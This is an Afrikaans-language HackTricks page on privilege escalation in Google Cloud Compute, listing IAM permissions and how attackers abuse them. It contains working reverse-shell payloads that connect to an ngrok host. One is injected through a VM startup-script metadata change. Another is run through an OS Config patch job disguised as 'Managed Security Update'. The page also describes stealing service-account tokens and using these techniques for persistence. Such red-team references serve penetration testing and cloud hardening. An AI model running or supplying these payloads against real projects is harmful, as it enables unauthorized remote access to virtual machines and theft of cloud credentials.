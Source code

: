 # GCP - Compute Privesc

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

Vir meer inligting oor Compute en VPC (netwerk) in GCP, kyk:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Let daarop dat om al die privilege escalation aanvalle uit te voer wat vereis dat die metadata van die instansie gewysig word (soos om nuwe gebruikers en SSH sleutels by te voeg), dit **nodig is dat jy `actAs` toestemmings oor die SA wat aan die instansie geheg is het**, selfs al is die SA reeds geheg!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Met daardie toestemming kan jy die **metadata** inligting van 'n **instansie** **wysig** en die **geautoriseerde sleutels van 'n gebruiker** verander, of 'n **nuwe gebruiker met sudo** toestemmings **skep**. Daarom sal jy in staat wees om via SSH in enige VM instansie in te log en die GCP Service Account waarmee die Instansie loop, te steel.\
Beperkings:

* Let daarop dat GCP Service Accounts wat in VM instansies loop, standaard 'n **baie beperkte omvang** het.
* Jy sal **in staat moet wees om die SSH** bediener te kontak om in te log.

Vir meer inligting oor hoe om hierdie toestemming te benut, kyk:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

Jy kan ook hierdie aanval uitvoer deur nuwe opstart-skrip by te voeg en die instansie te herlaai:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Hierdie toestemming gee die **dieselfde bevoegdhede as die vorige toestemming** maar oor 'n spesifieke instansie in plaas van 'n hele projek. Die **dieselfde ontploffings en beperkings soos vir die vorige afdeling geld**.

### `compute.instances.setIamPolicy`

Hierdie tipe toestemming sal jou toelaat om **jouself 'n rol met die vorige toestemmings toe te ken** en bevoegdhede te verhoog deur dit te misbruik.

### **`compute.instances.osLogin`**

As **OSLogin in die instansie geaktiveer is**, kan jy met hierdie toestemming net **`gcloud compute ssh [INSTANCE]`** uitvoer en met die instansie verbind. Jy **sal nie root bevoegdhede** binne die instansie hê nie.

{% hint style="success" %}
Om suksesvol met hierdie toestemming binne die VM instansie aan te meld, moet jy die `iam.serviceAccounts.actAs` toestemming oor die SA wat aan die VM gekoppel is, hê.
{% endhint %}

### **`compute.instances.osAdminLogin`**

As **OSLogin in die instansie geaktiveer is**, kan jy met hierdie toestemming net **`gcloud compute ssh [INSTANCE]`** uitvoer en met die instansie verbind. Jy sal **root bevoegdhede** binne die instansie hê.

{% hint style="success" %}
Om suksesvol met hierdie toestemming binne die VM instansie aan te meld, moet jy die `iam.serviceAccounts.actAs` toestemming oor die SA wat aan die VM gekoppel is, hê.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

Dit is moontlik om 'n **virtuele masjien met 'n toegewyde Diensrekening te skep en die token** van die diensrekening te steel deur toegang tot die metadata om bevoegdhede na te verhoog.

Die ontploffingskruip vir hierdie metode kan [hier gevind word](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

As jy die **`osconfig.patchDeployments.create`** of **`osconfig.patchJobs.exec`** toestemmings het, kan jy 'n [**patch werk of ontplooiing**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching) skep. Dit sal jou in staat stel om lateraal in die omgewing te beweeg en kode-uitvoering op al die rekenaarinstansies binne 'n projek te verkry.

Let daarop dat jy op die oomblik **nie `actAs` toestemming** oor die SA wat aan die instansie gekoppel is, nodig het nie.

As jy dit handmatig wil ontplof, sal jy of 'n [**patch werk**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_job.json) **of** [**ontplooiing**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_deployment.json)** moet skep.**\
Vir 'n patch werk, voer uit:

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

Om 'n patch-implementering te ontplooi:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
Die hulpmiddel [patchy](https://github.com/rek7/patchy) kon in die verlede gebruik word om hierdie miskonfigurasie te benut (maar dit werk nou nie).

**'n Aanvaller kan dit ook misbruik vir volharding.**

### `compute.machineImages.setIamPolicy`

**Gee jouself ekstra regte** op die rekenaarbeeld.

### `compute.snapshots.setIamPolicy`

**Gee jouself ekstra regte** op 'n skyf-snapshot.

### `compute.disks.setIamPolicy`

**Gee jouself ekstra regte** op 'n skyf.

### Bypass Access Scopes

Volg hierdie skakel om 'n paar [**idees te vind om toegangskope te omseil**](../).

### Plaaslike Privilege Escalation in GCP Compute instance

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## Verwysings

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsieplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
